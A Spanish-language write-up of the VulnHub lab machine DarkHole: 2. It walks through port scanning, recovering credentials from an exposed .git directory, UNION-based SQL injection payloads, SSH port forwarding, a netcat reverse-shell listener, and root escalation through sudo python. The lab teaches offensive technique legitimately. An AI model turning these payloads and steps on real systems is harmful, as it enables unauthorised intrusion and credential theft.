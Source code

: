 # VulnHub - DarkHole: 2 Writeup

## Primer paso: Escaneo de puertos
Anotamos nuestra IP

```bash
sudo ifconfig
```

![Consola](img/1.png)

En este caso será 192.168.226.128

Luego, es necesario encontrar la máquina a vulnerar. Esto se puede hacer con arp-scan o nmap. En este caso se le pedirá a nmap que escanee todas las IPs en nuestro rango.

```bash
nmap 192.168.226.0-255
```

![Consola](img/2.png)

- 192.168.226.2 :Tiene abierto el puerto 53, que se usa para DNS, por lo que se descarta esta máquina.
- 192.168.226.128: Es la máquina atacante.
- 192.168.226.130: Es la única máquina que queda, además tiene abiertos los puertos 22 y 80 (SSH y una página web)

Realizamos u n escaneo más profundo con:

```bash
nmap -A -v -n 192.168.226.130
```

![Consola](img/3.png)

Y obtenemos que existe un directorio .git accesible a través del puerto 80

## Segundo paso: Encontrar la vulnerabilidad web

Accedemos a su página web y vemos que en este caso no tiene disponible una pestaña para registrarnos:

![Consola](img/4.png)

Sin embargo, este panel no es vulnerable a SQl injection.

Esta página tiene un directorio .git. Nos lo descargamos con wget para ver los cambios y su código.

```bash
wget -r http://192.168.226.130/.git/
```

Para ver los cambios usaremos:

```bash
git log --oneline
```

![Consola](img/5.png)

Vemos que en el commit anterior (a4d900a), en login.php estaban las credenciales por defecto. Vamos a ver los cambios de ese commit:

```bash
git show a4d9
```

![Consola](img/6.png)

La línea importante es la siguiente:

```php
if($_POST['email'] == "lush@admin.com" && $_POST['password'] == "321"){
```

Esta línea se añadió en este commit, pero se eliminó en el siguiente, probamos sus credenciales para acceder. Nos llevará a un panel de control donde podremos ver el usuario:

![Panel de control](img/7.png)

De nuevo, se envía por parámetro el id (?id=1). En este caso, al cambiar el id a 2 se nos mostrará la plantilla que carga los datos. Esto es importante.

## Tercer paso: Explotar SQL Injection
Interceptamos la carga del usuario 1 y la enviamos al repetidor:

![Repeater de BurpSuite](img/8.png)

Al modificar los campos del submit no funcionará, pero se puede modificar la petición GEt para introducir SQL tras el id.
Gracias a ello, ahora sabemos que la tabla que está consultando la base de datos tiene 6 columnas:

![Repeater de BurpSuite](img/9.png)

La columna 1 es el id de la fila, pero la columna 4 no la usa la plantilla. Aun así vamos a hacer un mapa de la base de datos cambiando un número por una función:
Es muy importante revisar varias veces los datos y codificarlos a URL una sola vez.

- database() Nos dará el nombre de la base de datos. darkhole_2
- union+select+1,group_concat(schema_name),3,4,5,6+from+information_schema.schemata--+- Muestra todas las bases de datos. mysql,information_schema,performance_schema,sys,darkhole_2
En este caso sólo nos interesa la base de datos darkhole_2
- '+union+select+1,group_concat(table_name),3,4,5,6+from+information_schema.tables+where+table_schema%3d'darkhole_2'--+- Muestra las tablas de la base de datos darkhole_2. ssh,user
Los datos de la tabla ssh pueden ser interesantes.
- '+union+select+1,group_concat(column_name),3,4,5,6+from+information_schema.columns+where+table_schema%3d'darkhole_2'+and+table_name%3d'ssh'--+- para ver el nombre de las columas. id pass user
La columna id no nos interesa, tenemos que extraer los datos de user y pass.
- '+union+select+1,group_concat('usuario:+',user,'pass:+',pass),3,4,5,6+from+ssh--+- Extrae el usuario y la contraseña del id 1 de la tabla ssh.

![Repeater de BurpSuite](img/10.png)

Hay que tener especial cuidado con las comillas, en el último caso el nombre de la tabla no lleva comillas, pero en el resto sí. Esto depende si va detrás de un from o de un = (%3d encodeado a URL).

Ya tenemos entonces el usuario y la contraseña para conectarnos por ssh: jehad y fool.

## Cuarto paso: Escalar privilegios con ssh
Nos conectamos por ssh a través del terminal con el siguiente comando:

```bash
ssh jehad@192.168.226.130
```

Al haber enterado con un usuario distinto a www-data, podemos ver su historial de comandos:

```bash
cat .bash_history | less
```

![Histórico de comandos](img/11.png)

Al parecer, hay levantado en el puerto 9999 un servidor web levantado. Este puerto no fue detectado con netcat porque no es accesible desde el exterior.

Podemos hacer un port forwarding desde nuestra consola con ssh:

```bash
ssh jehad@192.168.226.130 -L 9999:localhost:9999
```
Ahora, accediendo a http://127.0.0.1:9999/ veremos que acepta el parámetro cmd para ejecutar comandos.

![Página web](img/12.png)

El usuario que corre el servicio es losy, podría ser interesante acceder a este. Para ello creamos una web shell.

Abrimos otra consola y escuchamos con netcat:

```bash
nc -lvnp 8888
```

Y entramos en la página [https://www.revshells.com/](RevShells) para generar la consola.

En este caso, funcionó la siguiente configuración:

![Reverse shell](img/13.png)

En la carpeta /home/losy encontramos la primera flag:


![Reverse shell](img/14.png)

De nuevo, viendo el histórico de comandos, encontramos una contraseña:

```bash
cat .bash_history | less
```

![Password](img/15.png)

Ahora que tenemos la contraseña de losy, vamos a consultar qué podemos ejecutar como root:

```bash
sudo -l
```
![Consola](img/16.png)

Podemos ejecutar python. Con él podemos darnos acceso a la consola de root. Creamos un archivo con el siguiente contenido o lo ponemos en el interprete de python:

```python
import pty;
pty.spawn("/bin/bash")
```

![Consola](img/17.png)

Con esto podemos acceder a la flag:

![Consola](img/18.png)
